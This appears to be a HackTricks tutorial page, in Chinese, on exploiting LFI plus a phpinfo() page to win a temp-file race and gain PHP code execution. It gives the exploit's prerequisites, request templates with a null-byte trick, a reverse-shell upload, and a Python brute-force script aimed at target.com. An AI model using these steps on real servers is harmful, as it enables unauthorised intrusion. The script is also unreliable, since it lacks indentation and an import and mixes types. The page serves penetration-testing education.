 {% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**从黑客的角度看待您的网络应用、网络和云**

**发现并报告具有实际商业影响的关键可利用漏洞。** 使用我们 20 多个自定义工具来映射攻击面，查找让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


要利用此漏洞，您需要：**一个 LFI 漏洞，一个显示 phpinfo() 的页面，“file\_uploads = on”，并且服务器必须能够在“/tmp”目录中写入。**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**教程 HTB**：[https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

您需要修复利用（将 **=>** 改为 **=>**）。为此，您可以执行：
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
你还需要更改**payload**在利用的开始（例如，使用php-rev-shell），**REQ1**（这应该指向phpinfo页面并包含填充，即：_REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_），以及**LFIREQ**（这应该指向LFI漏洞，即：_LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ 在利用空字符时检查双“%”）

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### 理论

如果在PHP中允许上传文件，并且你尝试上传一个文件，这个文件会存储在一个临时目录中，直到服务器处理完请求，然后这个临时文件会被删除。

然后，如果你在web服务器中发现了LFI漏洞，你可以尝试猜测创建的临时文件的名称，并通过在文件被删除之前访问临时文件来利用RCE。

在**Windows**中，文件通常存储在**C:\Windows\temp\php**

在**linux**中，文件的名称通常是**随机的**，并位于**/tmp**。由于名称是随机的，需要**从某处提取临时文件的名称**并在文件被删除之前访问它。这可以通过读取函数“**phpconfig()**”内容中的**变量$\_FILES**的值来完成。

**phpinfo()**

**PHP**使用**4096B**的缓冲区，当它**满**时，它会被**发送到客户端**。然后客户端可以**发送****大量的大请求**（使用大头部）**上传一个php**反向**shell**，等待**phpinfo()的第一部分返回**（其中包含临时文件的名称），并尝试在php服务器删除文件之前通过利用LFI漏洞**访问临时文件**。

**Python脚本尝试暴力破解名称（如果长度=6）**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**从黑客的角度看待您的网络应用、网络和云**

**查找并报告具有实际商业影响的关键可利用漏洞。** 使用我们20多个自定义工具来映射攻击面，发现让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}
